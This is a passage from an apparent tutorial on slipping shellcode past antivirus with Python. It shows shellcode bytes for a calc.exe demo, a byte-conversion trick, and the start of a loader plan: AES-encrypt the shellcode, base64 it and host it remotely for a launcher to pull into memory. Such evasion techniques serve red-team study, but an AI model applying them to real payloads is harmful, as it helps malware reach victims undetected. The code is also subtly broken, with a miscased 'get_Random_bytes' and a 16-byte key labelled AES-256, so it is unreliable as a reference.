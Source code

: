 ```
shellcode += b"\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a"
shellcode += b"\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53"
shellcode += b"\xff\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00"
```

You may also think that converting the string (unicode) to bytes via the encode() method would work. Alas, it does not! To correctly convert this format of unicode string ('\x00' format), you need to encode it using 'latin-1' rather than the default 'utf-8' format. So, for example, rather than tacking on those b's like above, you could do the following.

```
shellcode.encode('latin-1')
```

This was a neat little trick to get this running, found [here](https://www.christophertruncer.com/shellcode-manipulation-and-injection-in-python-3/).

These issues won't apply for how I will run shellcode in this article, but it's something very important to keep in mind when running shellcode that has been stored in the script itself. Always stay aware of your bytes/string conversions.

## Encryption, Encoding

Back to the fun stuff. The first order of business when getting around AV is getting your shellcode into memory without getting caught. There are two main ways that I can see to do this:
1. Store the shellcode (in some form) within the Python script/bin.
2. Load the shellcode (in some form) into memory from elsewhere.

I've had better luck using option 2. To accomplish this, I'm going to do a few things. First, I'm going to encrypt the raw shellcode generated earlier. Then, I'll convert those encrypted bytes to a base64 string and host that content somewhere to be pulled by my Launcher.

### Encrypting the shellcode

First, the shellcode needs to be read in from the binary file.

```
with open('calc_x64.bin', 'rb') as f:
    shellcode = f.read()
```

Now, these bytes need to be encrypted. I'm going to use AES 256 in CFB mode for encryption. This will be accomplished using the pycryptodome library ([Pycryptodome](https://pycryptodome.readthedocs.io/en/latest/index.html)).

Import the methods.

```
from Crypto.Cipher import AES
from Crypto.Random import get_random_bytes
```

Create the key and encryption function.

```
key = b'eax94il288nyq0rv'

def aes_encrypt(plaintext, key):
    iv = get_Random_bytes(AES.block_size)
    cipher = AES.new(key, AES.MODE_CFB, iv)
    ciphertext = cipher.encrypt(plaintext)
    return ciphertext, iv
```
